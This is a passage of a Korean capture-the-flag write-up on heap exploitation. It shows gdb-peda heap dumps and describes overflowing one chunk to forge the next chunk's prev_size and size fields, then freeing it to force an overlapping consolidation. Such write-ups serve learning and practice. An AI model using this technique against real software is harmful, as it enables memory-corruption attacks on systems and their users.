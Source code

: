 일단 이런식으로 할당을 해보자

```c
gdb-peda$ 
0x155f6bff2100:	0x0000000000000001	0x00000000000000f0
0x155f6bff2110:	0x000055d233da8010	0x0000000000000001
0x155f6bff2120:	0x0000000000000010	0x000055d233da8110
0x155f6bff2130:	0x0000000000000001	0x00000000000000f0
0x155f6bff2140:	0x000055d233da8130	0x0000000000000001
0x155f6bff2150:	0x0000000000000020	0x000055d233da8230
```

포인터가 설정되어있는데 1 chunk 는 110 을 할당받은 상태다

```c
gdb-peda$ par
addr                prev                size                 status              fd                bk                
0x5596e0b4d000      0x0                 0x100                Freed     0x7f84f4db9b78    0x7f84f4db9b78
0x5596e0b4d100      0x100               0x20                 Used                None              None
0x5596e0b4d120      0x0                 0x100                Used                None              None
0x5596e0b4d220      0x0                 0x30                 Used                None              None

0x41b30777d2a0:	0x0000000000000001	0x0000000000000010
0x41b30777d2b0:	0x00005596e0b4d110	0x0000000000000000
0x41b30777d2c0:	0x0000000000000000	0x0000000000000000
0x41b30777d2d0:	0x0000000000000001	0x00000000000000f0
0x41b30777d2e0:	0x00005596e0b4d130	0x0000000000000001
0x41b30777d2f0:	0x0000000000000020	0x00005596e0b4d230
```

free(1) -> free(0) -> add(0x10) 중간에 더미 fast chunk먼저 해제 하고 small bin 해제 후 다시 fast chunk를 재할당 해보자 0 chunk 가 fast chunk를 반환받았다.

```c
gdb-peda$ par
addr                prev                size                 status              fd                bk                
0x55cb39176000      0x0                 0x220                Freed     0x7f39f36e6b78    0x7f39f36e6b78
0x55cb39176220      0x220               0x30                 Used                None              None
```

그리고 fill 메뉴로 0 chunk 에서 오버플로우를 내 2 chunk 의 prev size와 size를 변조한 후 2 chunk를 free하면 chunk가 병합되게 된다.

```c
gdb-peda$ par
addr                prev                size                 status              fd                bk                
0x55aea9d94000      0x0                 0x100                Used                None              None
0x55aea9d94100      0x0                 0x120                Freed     0x7f6e92846b78    0x7f6e92846b78
0x55aea9d94220      0x120               0x30                 Used                None              None

gdb-peda$ 
0x32f2de63c100:	0x0000000000000000	0x0000000000000000
0x32f2de63c110:	0x0000000000000000	0x0000000000000000
0x32f2de63c120:	0x0000000000000000	0x0000000000000000
0x32f2de63c130:	0x0000000000000000	0x0000000000000000
0x32f2de63c140:	0x0000000000000000	0x0000000000000000
0x32f2de63c150:	0x0000000000000000	0x0000000000000000
```